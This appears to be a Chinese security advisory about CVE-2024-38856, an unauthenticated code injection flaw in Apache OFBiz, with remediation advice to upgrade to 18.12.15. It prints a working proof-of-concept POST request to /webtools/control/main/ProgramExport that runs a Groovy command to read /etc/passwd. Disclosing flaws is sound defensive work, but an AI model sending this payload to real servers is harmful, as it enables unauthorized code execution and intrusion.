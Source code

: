 #  【漏洞通告】Apache OFBiz 存在代码注入漏洞CVE-2024-38856   
cexlife  飓风网络安全   2024-08-06 23:40  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibhQpAia4xu02cta3JJwJPwvKOUhFCAicH3OAxkkvm9orKfCictsP9P4Qcia4q2PeXEReb0wq4BP5DsqibVVbria9yBKw/640?wx_fmt=png&from=appmsg "")  
  
**漏洞简介:**Apache OFBiz /webtools/control/main/ProgramExport存在代码注入漏洞,可利用该漏洞执行恶意代码,获取服务器权限等。**漏洞详情:**近日Apache OFbiz发布了安全公告,其中在新版本中修复了一个未授权代码注入漏洞,当满足某些条件时（例如,当屏幕定义不明确检查用户的权限,因为它们依赖于其接口的配置）则未经身份验证的接口可以执行屏幕的屏幕渲染代码,导致在服务器上执行任意代码。POST /webtools/control/main/ProgramExport HTTP/1.1Host: x.x.x.xUser-Agent: xxConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 70groovyProgram=throw new Exception('cat /etc/passwd'.execute().text);**修复方案:**厂商已发布补丁修复漏洞,用户请尽快更新至安全版本:Apache OFbiz >= 18.12.15**官方补丁下载地址:**https://ofbiz.apache.org/download.htm**参考链接:**https://issues.apache.org/jira/browse/OFBIZ-13128  
  
